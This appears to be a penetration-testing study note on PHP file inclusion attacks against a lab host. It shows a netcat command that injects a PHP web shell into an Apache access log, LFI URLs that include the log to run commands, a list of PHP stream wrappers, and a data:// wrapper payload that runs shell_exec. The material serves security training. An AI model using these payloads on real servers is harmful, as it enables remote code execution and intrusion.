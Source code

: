# File Inclusion Vulnerabilty

## <mark style="color:red;">Contaminating log files</mark>

Let's send that payload now:

```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```

Our payload should be found near the end of the log file:

```bash
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500]
"GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 981 "-" "-"
```

We'll build a URL that includes the location of the log as well as our command to be executed (ipconfig) sent as the _cmd_ parameter's value.

```bash
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
http://10.11.0.22/menu.php?file=/var/log/apache2/logs/access.log&cmd=ifconfig
```

## <mark style="color:red;">PHP wrappers</mark>

These are PHP wrappers:

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

Example of use:

```url
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```

Or a better payload for LFI:

```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
